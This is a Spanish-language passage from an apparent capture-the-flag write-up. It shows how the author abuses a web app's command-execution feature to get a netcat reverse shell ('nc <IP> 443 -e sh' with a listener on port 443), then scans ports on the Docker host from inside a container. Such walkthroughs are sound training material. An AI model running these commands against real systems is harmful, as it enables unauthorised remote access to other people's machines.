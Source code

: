 presiono donde dice "Start from scratch" y luego de revisar un poco, veo que se puede ejecutar un comando:

![Command](images/hero/command.png)

# Intrusión

Viendo que existe la opción, preparo la escucha con `netcat`:

```css
nc -nlvp 443
```

y envío una reverse shell escribiendo el siguiente comando en la web:

```css
nc <IP> 443 -e sh
```

luego, presionamos donde dice "test workflow" y recibiremos la shell.

# Escalada De Privilegios

#### Port Search On The Host

Luego de probar un buen rato, pruebo a buscar puertos abiertos en el host pero desde el docker y a la ip `172.17.0.1` con este script:

```sh
#!/bin/sh

seq 1 100 > ports



while read -r number; do
  if timeout 0.1 sh -c "nc 172.17.0.1 $number" &>/dev/null; then
    echo "Puerto abierto encontrado: 172.17.0.1:$number"
  fi
done < "./ports"
rm ./ports
```
